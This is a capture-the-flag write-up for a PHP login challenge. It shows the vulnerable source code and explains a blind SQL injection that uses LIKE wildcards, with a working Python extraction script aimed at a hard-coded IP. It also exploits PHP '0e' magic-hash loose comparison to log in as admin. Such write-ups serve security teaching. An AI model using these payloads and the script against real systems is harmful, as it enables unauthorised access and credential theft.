

We're given the link to a login form, and the name of the user that we're trying to log in as. On the login page, we're given the source code for the login feature.



```php

<html>
<head>
<title>The Wall</title>
</head>
<body>
<?php
include 'flag.php';

if(isset($_REQUEST['life'])&&isset($_REQUEST['soul'])){
    $username = $_REQUEST['life'];
    $password = $_REQUEST['soul'];

    if(!(is_string($username)&&is_string($password))){
        header( "refresh:1;url=login.html");
        die("You are not allowed south of wall");
    }

    $password = md5($password);
    
    include 'connection.php';
    /*CREATE TABLE IF NOT EXISTS users(id INTEGER PRIMARY KEY AUTOINCREMENT,username TEXT,password TEXT,role TEXT)*/

    $message = "";
    if(preg_match('/(union|\|)/i', $username)){
        $message="Dead work alone not in UNIONs"."</br>";
        echo $message;
        die();
    }
    $query = "SELECT * FROM users WHERE username='$username'";
    $result = $pdo->query($query);
    $users = $result->fetchArray(SQLITE3_ASSOC);

    if($users) {
        if($password == $users['password']){
            if($users['role']=="admin"){
                echo "Here is your flag: $flag";
            }elseif($users['role']=="normal"){
                $message = "Welcome, ".$users['users']."</br>";
                $message.= "Unfortunately, only Lord Commander can access flag";
            }else{
                $message = "What did you do?";
            }
        }
        else{
            $message = "Wrong identity for : ".$users['username'];
        }

    }
    else{
        $message = "No such person exists"."<br>";
    }
    echo $message;
}else{
    header( "refresh:1;url=login.html");
    die("Only living can cross The Wall");
}
?>

</body>
</html>

```

By looking at the php, we can see that there's a classic example of an SQL injection vulnerability in the following code:

```php
    $query = "SELECT * FROM users WHERE username='$username'";
    $result = $pdo->query($query);
    $users = $result->fetchArray(SQLITE3_ASSOC);
```

If we insert a username containing a ', we can end the where clause and insert our own SQL commands into the query.

Normally at this point, I'd try to pull information out of the database using the UNION command, but the php code filters any form of "union" in the input, so we need to find a different way.

By messing around with the login form and looking at the source code, we noticed that we get different outputs depending on whether or not the SELECT statement returned at least 1 user. When the SELECT statement finds a user, and we give the wrong password, we get an output of "Wrong identity for : ".$users['username'], but when we don't find a valid user we get an output of "No such person exists". As such, we can insert code into the SQL query that will cause the SELECT to only return a user conditional on some information about their password. 

The way we did this is by adding onto the WHERE clause: we used a username of the form "LordCommander' AND password LIKE 'a%", in order to find whether or not the password starts with an a (the % sign in SQL is a wildcard character, so a% matches any string starting with an a). When inserted into the SQL query string, the query becomes: 

```sql
"SELECT * FROM users WHERE username='LordCommander' AND password LIKE 'a%'"
```

This test can be done for all of the characters in the set "01234567890abcdef" (since the stored value is an md5 hash) to find what character the password starts with, and this process can be repeated for every character of the password. Since we only have to guess 16 times at most per character of the password, this can be done very quickly.

To automate this, we wrote a quick python script that uses the requests library to interact with the website:

```python
import requests
import string

url = 'http://163.172.176.29/WALL/index.php'

response = ''
sofar = ''
while True:
    done = 1
    for char in "0123456789abcdef":
        print(char)
        params = {'life':'LordCommander\' AND password LIKE \''+ sofar + char + '%', 'soul':''}
        r = requests.post(url, data=params)

        if "Wrong identity" in r.text:
            sofar += char
            print("sofar=", sofar)
            done = 0
            break
    if done == 1:
        break
print sofar

```

Running the script gets us the md5 hash of the password: 0e565041023046045310587974628079

Running the hash through online hash crackers doesn't find anything. By looking back at the source code, we can see that the hashes are compared with the == operator:

```php
if($password == $users['password'])
```

The double equals operator is notoriously bad, and there's a fairly well known vulnerability with the operator in that two strings starting with "0e" will always compare as true. This is because the == operator does automatic type casting, and considers strings of the form "0exxxxxx" to be the same as the integer 0 * e^{xxxxxx}. Therefore when two strings starting with "0e" are compared, they both get casted to the integer 0, and the comparison will always evaluate to true.

By googling "0e php hash vulnerability", we can find another string whose hash starts with "0e" (I used the string "240610708"). By entering this as the password, we'll get past the password check, and will log in as the admin. We were given the flag on the admin page.